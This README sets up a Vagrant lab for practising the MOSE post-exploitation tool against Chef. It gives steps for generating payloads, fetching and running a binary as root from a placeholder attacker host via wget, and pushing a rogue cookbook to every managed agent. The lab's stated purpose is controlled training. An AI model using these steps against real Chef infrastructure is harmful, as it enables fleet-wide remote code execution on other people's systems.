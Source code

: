 # chef-test-lab
Create test lab which can be used to play around with MOSE and Chef.

**Warning, take heed: This lab should be run in a controlled environment, as it contains vulnerable assets.**

## Dependencies
You must download and install the following for this environment to work:
* [Vagrant](https://www.vagrantup.com/downloads.html)

## Lab Build Instructions
To create an environment with a Chef Workstation and a Chef Server that controls multiple agents, run the following command:
```
make build && make run
```
To run MOSE against the chef workstation:

1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef`
3. Login to the chef workstation: `vagrant ssh chef_workstation` (the password is vagrant)
4. Escalate to root with `sudo su`
5. Download the binary from MOSE: `wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
6. Run the payload: `chmod +x chef-linux; ./chef-linux`
7. Wait for 30 minutes or ssh into one of the agents and kick off the payload manually: `vagrant ssh chef_agent_1` (the password is vagrant)
	7a. Escalate to root with ```sudo su```
	7b. Run ```chef-client```
8. For this example, you should note that a file has been created in `/tmp` in all of the chef-agent virtual machines, as we specified in step 2.

To run MOSE against the chef server:
1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef -l <your local ip address> -ep 9090`
3. Login to the chef server: `vagrant ssh chef_server` (the password is vagrant)
4. Escalate to root with `sudo su`
5. Download the binary from MOSE: `wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
6. Back on the attacker's system, specify `n` for the target being a workstation and `Y` when prompted for the target being a server
7. Run the payload: `chmod +x chef-linux; ./chef-linux`
8. Use the container that is spawned on the attacking machine as if it were a workstation to get the rogue cookbook into place
9. Wait for 30 minutes or ssh into one of the agents and kick off the payload manually: `vagrant ssh chef_agent_1` (the password is vagrant)
	7a. Escalate to root with ```sudo su```
	7b. Run ```chef-client```
10. For this example, you should note that a file has been created in `/tmp` in all of the chef-agent virtual machines, as we specified in step 2.

To tear down the test environment, run the following command:
```
make destroy
```
